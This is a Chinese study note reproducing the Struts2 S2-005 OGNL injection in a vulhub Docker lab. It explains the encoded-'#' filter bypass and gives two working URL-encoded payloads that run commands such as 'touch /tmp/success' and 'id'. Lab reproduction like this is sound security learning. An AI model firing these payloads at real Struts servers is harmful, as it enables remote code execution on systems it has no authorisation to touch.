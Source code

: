 ~~~~
title: 漏洞复现学习（s2-005）
tags: 
  - 渗透测试
  - 漏洞复现
  - struts2
categories: 
  - 渗透测试
  - 漏洞复现
  - struts2
~~~~



## Struts2漏洞S2-005复现笔记

## S2-005复现漏洞原理

~~~text
s2-005漏洞的起源源于S2-003(受影响版本: 低于Struts 2.0.12)，struts2会将http的每个参数名解析为OGNL语句执行(可理解为java代码)。OGNL表达式通过#来访问struts的对象，struts框架通过过滤#字符防止安全问题，然而通过unicode编码(\u0023)或8进制(\43)即绕过了安全限制，对于S2-003漏洞，官方通过增加安全配置(禁止静态方法调用和类方法执行等)来修补，但是安全配置被绕过再次导致了漏洞，攻击者可以利用OGNL表达式将这2个选项打开
~~~

影响版本：Struts 2.0.0-2.1.8.1

## 漏洞搭建

~~~~
https://github.com/vulhub/vulhub/tree/master/struts2/s2-005
~~~~

运行以下命令启动环境

```
docker-compose build
docker-compose up -d
```

搭建成功：

![image-20220330205122843](E:\学习\picture\image-20220330205122843.png)

## 构建poc

使用抓包工具burp suite，修改数据包插入poc

~~~poc
(%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true&(aaaa)((%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22)))&(asdf)(('%5cu0023rt.exec(%22touch@/tmp/success%22.split(%22@%22))')(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime()))=1
~~~

![image-20220330210413069](E:\学习\picture\image-20220330210413069.png)

**Poc2：**

~~~~
?%27%2B%28%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3Dfalse%2C%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%27id%27%29.getInputStream%28%29%29%29%2B%27
~~~~

![image-20220330210547380](E:\学习\picture\image-20220330210547380.png)

## 查看数据连接状态

命令：

~~~
docker exec -it c25543ef6c4c /bin/bash
~~~

ls /tmp

![image-20220330210920367](E:\学习\picture\image-20220330210920367.png)